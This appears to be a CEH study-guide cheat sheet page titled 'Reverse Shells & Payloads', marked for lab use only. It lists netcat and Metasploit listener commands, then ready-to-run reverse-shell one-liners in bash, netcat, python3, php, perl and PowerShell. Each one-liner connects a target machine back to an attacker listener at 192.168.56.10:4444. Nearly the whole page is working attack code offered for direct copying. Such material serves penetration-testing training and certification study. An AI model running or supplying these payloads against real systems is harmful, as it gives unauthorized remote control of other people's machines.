

repository: morandeirachema/CyberCerts · page: certs/ceh/cheatsheets/reverse-shells/index.html · generator: mkdocs

# Reverse Shells & Payloads

The most-used quick reference in any lab: get a shell, catch it, upgrade it. **Lab / authorized targets only.** Set `LHOST`/`LPORT` to your Kali (`192.168.56.10`) and a port you're listening on.

> Confirm the target's available interpreters first (`which python3 bash nc php perl`). Copy the one that fits.

## 1. Start a listener (on Kali)
```bash
nc -lvnp 4444                 # simple netcat listener
rlwrap nc -lvnp 4444          # with readline (arrow keys/history)
# Metasploit multi/handler:
msfconsole -q -x "use multi/handler; set payload linux/x64/shell_reverse_tcp; set LHOST 192.168.56.10; set LPORT 4444; run"
```

## 2. Reverse shells (run on the target)
```bash
# bash
bash -i >& /dev/tcp/192.168.56.10/4444 0>&1
# nc (traditional)
nc 192.168.56.10 4444 -e /bin/bash
# nc without -e (OpenBSD nc)
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.56.10 4444 >/tmp/f
# python3
python3 -c 'import socket,os,pty;s=socket.socket();s.connect(("192.168.56.10",4444));[os.dup2(s.fileno(),f) for f in(0,1,2)];pty.spawn("/bin/bash")'
# php
php -r '$s=fsockopen("192.168.56.10",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
# perl
perl -e 'use Socket;$i="192.168.56.10";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));connect(S,sockaddr_in($p,inet_aton($i)));open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");'
```
PowerShell (Windows target):
```powershell
powershell -nop -c "$c=New-Object Net.Sockets.TCPClient('192.168.56.10',4444);$s=$c.GetStream();[byte[]]$b=0..65535|%{0};while(($i=$s.Read($b,0,$b.Length)) -ne 0){$d=(New-Object Text.ASCIIEncoding).GetString($b,0,$i);$r=(iex $d 2>&1|Out-String);$s.Write(([Text.Encoding]::ASCII).GetBytes($r),0,$r.Length)}"
```
